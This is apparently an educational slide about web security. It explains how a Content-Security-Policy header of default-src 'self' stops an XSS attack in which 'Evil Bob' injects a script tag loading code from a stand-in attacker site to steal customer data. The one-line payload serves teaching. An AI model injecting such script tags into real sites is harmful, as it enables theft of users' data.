

Evil Bob found XSS vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

<script src="https://my-evilt-site.org/very-evil-script.js"></script>

Luckily, Alice knows about CSP header and already added it to the response  Content-Security-Policy: default-src 'self'. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.